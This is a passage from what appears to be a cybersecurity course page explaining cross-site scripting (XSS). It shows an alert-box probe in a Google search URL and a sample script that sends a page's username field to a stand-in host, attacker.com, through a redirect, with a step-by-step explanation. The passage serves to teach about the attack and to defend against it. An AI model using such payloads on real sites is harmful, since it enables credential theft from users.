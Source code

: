 ### 💉 Injecting Scripts into the Target Page

If we inject the text `"What is XSS?"` into the google.com page, we might be able to inject a JS script that opens a new modal:

```url
https://www.google.com/search?q=<script>alert('Hello World')</script>
```

🎉 We have successfully included our code into Google's page! [Click here to see it](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/pentesting-red-team/xaa-script-attempt.jpg?raw=true).

### 🔐 Google.com is Protected Against XSS

The bad news is that, even though our code `<script>alert('Hello World')</script>` appears within the source code of google.com, it is not executing! 😕

Google is likely converting our code into harmless characters to prevent the web browser from interpreting it.

### ⚠️ Examples of More Malicious Scripts

A simple `<script>alert('Hello World')</script>` is harmless, but the following script would be much worse:

```js
<script>
    window.location = "http://attacker.com/phishing-page?data=" + document.getElementById('username').value;
</script>
```

This attack could be used to redirect users to a phishing page that appears legitimate but is controlled by the attacker. In the process, the attacker could steal the username or other sensitive information that the user entered on the original site. This could lead to credential theft or tricking the user into providing more information on the phishing page.

#### 🛠️ What Does This Code Do?

1. **`<script>` Tag:** The attacker injects a `<script>` tag into the web page. When the page loads, the victim’s browser will execute this script.

2. **🚨 Malicious Redirection:** The script uses `window.location` to redirect the user to a URL controlled by the attacker, in this case, `http://attacker.com/phishing-page`. The key part of this redirection is that the script also attaches sensitive data to the URL.

3. **🔓 User Information Theft:** The script gets the value of the input field with the ID `username`, which could be the username or other sensitive information that the user entered on the page. This value is attached to the phishing page’s URL and sent to the attacker’s server.

## Other Types of XSS

### 🗃️ Stored XSS

